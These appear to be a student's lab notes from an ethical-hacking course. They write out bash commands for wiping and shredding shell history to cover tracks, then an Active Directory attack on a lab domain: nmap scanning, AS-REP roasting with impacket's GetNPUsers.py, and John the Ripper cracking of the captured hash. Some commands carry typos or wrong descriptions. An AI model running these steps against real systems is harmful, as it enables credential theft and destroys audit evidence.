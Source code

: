 
## Task 2: Clear Linux Machine Logs using the BASH Shell

1. clearing the Linux machine event logs using the BASH shell.
	-  open terminal in parrot 
	- command to disable the BASH shell from saving the history.
		-  ``export HISTSIZE=0``
	- command to clear the stored history.
		- `` histroy -c``
	- command to delete the history of the current shell
		- `` history -w`` 
2. using bash 
	- command to shred the history file, making its content unreadable.
		- ``shred ~/.bash_history``
	- command to view the shredded history content.
		- ``more ~/.bash_history``
3. You can use all the above-mentioned commands in a single command by issuing
	- ``shred ~/.bash_history && cat /dev/null > .bash_history && history -c && exit``
# Lab 5: Perform Active Directory (AD) Attacks Using Various Tools

## Task 1: Perform Initial Scans to Obtain Domain Controller IP and Domain Name
1. To perform initial scans on the domain controller (DC).
	- ``nmap 10.10.1.0/24``
	- Observe the nmap output carefully. Here, nmap shows that host **10.10.1.22** has **port** **88/TCP** **kerberos-sec** and **port 389/TCP LDAP** opened which confirms that our DC IP address is **10.10.1.22**.
2. we will scan **10.10.1.22** in more detail to obtain more information.
	- `` nmap -A -sS -sV 10.10.1.22``
3. we obtained the name which is ``CEH.com``
4.  DC IP and domain name, which can be used in the AS-REP Roasting attack.
## Task 2: Perform AS-REP Roasting Attack
An AS-REP roasting attack targets user accounts in AD that do not require Kerberos pre-authentication, exploiting the DONT_REQ_PREAUTH setting. Attackers can request a ticket-granting ticket (TGT) for these accounts without needing the user's password.

The DC responds with an encrypted TGT, which the attacker captures. This TGT, encrypted with the user's password hash, is then subjected to offline password-cracking tools such as Hashcat or John the Ripper. By rapidly guessing the password, the attacker can eventually decrypt the TGT, revealing the user's password.

(port 88 )
1. parrot run command  
	- `` cd  impacket/examples/ `` as  root 
	
 2. run this command 
	- ``python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22``
	- eng
		- SKILL.CEH.com/ ip 192.168.0.222
	- We can observe that the user **Joshua** has **DONT_REQUIRE_PREAUTH** set. As this user is vulnerable to AS-REP roasting, we obtain Joshua's password hash.
3. hash and save it as ``joshuahash.txt``.
4. crack   password hash using john 
	- ``john --wordlist=/root/ADtools/rockyou.txt joshuahash.txt``
5. we got ``user: Joshua`` and ``password: cupcake`` 
